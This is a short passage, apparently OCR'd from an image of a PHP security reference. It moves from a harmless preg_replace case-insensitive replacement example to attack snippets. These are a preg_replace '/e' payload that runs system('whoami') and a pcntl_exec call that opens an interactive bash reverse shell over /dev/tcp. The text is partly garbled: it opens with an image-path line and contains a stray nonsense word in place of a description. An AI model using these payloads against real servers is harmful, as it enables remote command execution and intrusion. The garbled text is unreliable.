 ```php
$result = preg_replace("/hello/i", "Hi", $text);
```

This will replace both `"hello"` and `"Hello"` with `"Hi"` in the input string.

Overall, **preg\_replace** is a versatile function that can be used for a wide range of text manipulation tasks in PHP. It is particularly useful when you need to perform complex search and replace operations based on regular expressions.
```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```
**pcntl\_exec** - yuQmey (by default in modern and not so modern PHP you need to load the `pcntl.so` module to use this function)
```bash
pcntl_exec("/bin/bash", ["-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"]);
```